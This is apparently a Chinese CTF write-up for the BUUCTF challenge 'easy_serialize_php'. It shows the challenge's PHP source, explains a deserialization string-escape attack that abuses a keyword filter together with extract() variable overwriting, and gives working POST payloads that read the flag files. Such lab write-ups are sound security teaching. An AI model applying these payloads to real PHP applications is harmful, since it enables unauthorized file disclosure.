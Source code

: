 ```yaml
---
{"dg-publish":true,"title":"BUU_[安洵杯 2019]easy_serialize_php 1","dg-path":"安全/靶场/BUU_[安洵杯 2019]easy_serialize_php 1.md","permalink":"/安全/靶场/BUU_[安洵杯 2019]easy_serialize_php 1/","dgPassFrontmatter":true}
---
```


```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);//存在变量覆盖漏洞，参数转换为变量，如果变量存在，则覆盖原变量

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}

```


首先查看一下phpinfo中的信息：
![Pasted image 20241009150931.png](/img/user/picture/Pasted%20image%2020241009150931.png)
发现了一个自动加载的文件，猜测这个可能是存放flag的文件，毕竟题目中也没有提示别的文件了

所以这一题的目的也就很明确了，就是在`f=show_image`模式下去读取`d0g3_f1ag.php`文件
也就是需要让`$_SESSION['img']`的值为`d0g3_f1ag.php`的base64编码
但是我们看代码发现，我们没有办法直接指定img的值，如果通过POST传递，传递的值之后还是会被覆盖，如果通过url传递，传递的值会被进行shal加密，这肯定也行不通
所以关键点在于它会将这个数组进行序列化，之后还会进行反序列化，并且还会对序列化的字符串进行过滤
也就是说我们可以尝试去进行**字符串逃逸**

这里的构造思路是我们先要知道我们想要的序列化字符串是什么：
```php
....;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";......
```
而字符减少的逃逸思路是依靠两个相邻的变量，在后面的变量中我们完整包含我们想要包含的信息，并且还要尝试和前面的变量进行闭合，还要将不要的信息用`}`隔断。而前面的变量就要包含会缩短的字符来进行长度调整
还要注意，这样的话变量数量应该会减少，所以我们还在在后面的值中添加一个占位量，可以是下面内容`s:1:"1";s:1:"2";`

现在要探究的问题是我们需要让第一个值的长度为多少呢
我们有下面构造：
```php
<?php  
  
function filter($img) {  
    $filter_arr = array('php', 'flag', 'php5', 'php4', 'fl1g');  
    foreach ($filter_arr as $word) {  
        $img = str_ireplace($word, '', $img);  
    }  
    return $img;  
}  
  
session_start();  
  
$_SESSION["user"] = '';  
$_SESSION['function'] = '";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}';  
$_SESSION['img'] = 'nonononono';  
  
$serialize_info = filter(serialize($_SESSION));  
echo $serialize_info;  
?>
```
![Pasted image 20241009192915.png](/img/user/picture/Pasted%20image%2020241009192915.png)
选中部分就是我们想要让php识别为第一个值的部分，数一下长度为23，所以我们可以凑出user的值`flagflagflagflagflagphp`

第二个值function的值为`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}`


现在我们可以构造出payload：
```txt
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}
```

得到信息：
![Pasted image 20241009193726.png](/img/user/picture/Pasted%20image%2020241009193726.png)


还是利用这种方法读一下这个文件
```
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"1";s:1:"2";}
```

拿到flag：
![Pasted image 20241009194024.png](/img/user/picture/Pasted%20image%2020241009194024.png)

